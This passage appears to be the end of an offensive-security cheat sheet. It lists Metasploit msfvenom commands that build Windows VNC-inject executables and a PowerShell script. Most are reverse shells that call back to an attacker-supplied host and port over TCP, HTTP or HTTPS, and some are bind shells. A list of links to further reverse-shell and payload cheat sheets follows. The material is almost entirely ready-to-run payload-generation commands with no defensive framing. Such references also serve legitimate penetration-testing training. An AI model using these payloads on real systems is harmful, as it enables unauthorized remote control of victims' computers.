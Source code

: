 `$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

#### 2.7.1 - Staged Windows VNC Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p cmd/windows/powershell/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f raw -o vnc-x86.ps1`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/vncinject/bind_tcp rhost=<target_IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

## References

- [How to XOR with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-XOR-with-Metasploit-Framework-Compiler)

- [How to RC4 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decrypt-RC4-with-Metasploit-Framework-Compiler)

- [How to decode Base64 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decode-Base64-with-Metasploit-Framework-Compiler)

- [MSFVenom Reverse Shell Payload Cheatsheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

- [MSFVenom Cheatsheet Create Metasploit Payloads](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)

- [MSF-Venom Cheatsheet](https://github.com/frizb/MSF-Venom-Cheatsheet)

- [Reverse Shell Cheatsheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

- [Hacktricks Shells](https://book.hacktricks.xyz/shells/shells)

- [Hacktricks MSFVenom Shells](https://book.hacktricks.xyz/shells/shells/msfvenom)

- [SMB NamedPipe Pivoting Meterpreter](https://nagarrosecurity.com/blog/smb-named-pipe-pivoting-meterpreter)

- [Get Reverse Shell via Windows One Liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)